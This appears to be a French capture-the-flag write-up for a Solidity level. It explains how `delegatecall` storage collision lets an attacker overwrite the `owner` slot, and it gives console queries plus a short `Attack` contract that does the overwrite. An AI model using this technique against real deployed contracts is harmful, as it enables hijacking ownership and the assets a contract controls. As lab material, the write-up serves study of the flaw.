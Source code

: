 ### Analyse

Nous devons devenir `owner` du smart contract. Le problème est que le contrat ne permet pas de faire ce changement à première vue.

On se rabat alors rapidement sur l'utilisation des `delegatecall()` utilisés par `setFirstTime()` et `setSecondTime()`. On peut voir que l'on fait un appel à `setTime(uint256)`.

> There exists a special variant of a message call, named **delegatecall** which is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract and `msg.sender` and `msg.value` do not change their values.
>
> This means that a contract can dynamically load code from a different address at runtime. Storage, current address and balance still refer to the calling contract, only the code is taken from the called address.
>
> This makes it possible to implement the “library” feature in Solidity: Reusable library code that can be applied to a contract’s storage, e.g. in order to  implement a complex data structure.

Nous allons exploiter un appel à `delegateall()` qui nous permet de pouvoir modifier le contexte, donc les valeurs des slots du smart contract. Nous aurons simplement à créer une fonction dans notre smart contract qui possède la bonne signature.

Répartition dans les slots:

* slot 0: `timeZone1Library`
* slot 1: `timeZone2Library`
* slot 2: `owner`

Nous devons modifier la valeur du slot 2.

### Attaque

```javascript
> await contract.timeZone1Library()
"0x4f0c5F3bcc055b0f485F7e165B75B44e2b67f9D6"

> await contract.timeZone2Library()
"0x388ba2Fa282334E76c5563d3AC2EfC33399580B9"

> await contract.owner()
"0xa47AFD98aBba00C731C08F470890dCF6e42d8f27"
```

```javascript
// 0x271016E1fb59FeD5E01F1D42AF81153dD5E942ed
pragma solidity ^0.5.0;

contract Attack {
    address slot0;
    address slot1;
    address slot2;
    
    function setTime(uint _time) public {
        slot2 = msg.sender;
    }
}
```
